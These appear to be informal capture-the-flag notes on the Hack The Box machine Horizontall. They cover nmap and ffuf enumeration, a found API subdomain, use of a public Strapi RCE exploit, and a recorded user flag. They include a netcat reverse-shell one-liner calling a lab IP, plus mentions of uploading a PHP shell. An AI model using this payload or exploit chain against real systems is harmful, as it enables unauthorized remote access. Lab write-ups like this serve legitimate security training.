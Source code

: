 start with nmap.

80
22

***

http

http://horizontall.htb/ --> ffuf with diferent list, nothing foudn(does not fuff with extention)


in view-source:http://horizontall.htb/js/app.c68eb462.js found url 
http://api-prod.horizontall.htb/

ffuf : 

admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]

used exploit 50239.py on subdomain. got rce with below payload.(used lot of , this worked)

mkfifo /tmp/lol;nc 10.10.14.114 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol

get shell as strapi

user found on box : developer 

user.txt : 441607bd8759af02e07677f582a6e9bf


tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1820/node /usr/bin/                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                                     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -     

we can upload php shell on box. and 1337 is open for developement purpose.

check if mongo db is present on server . try to login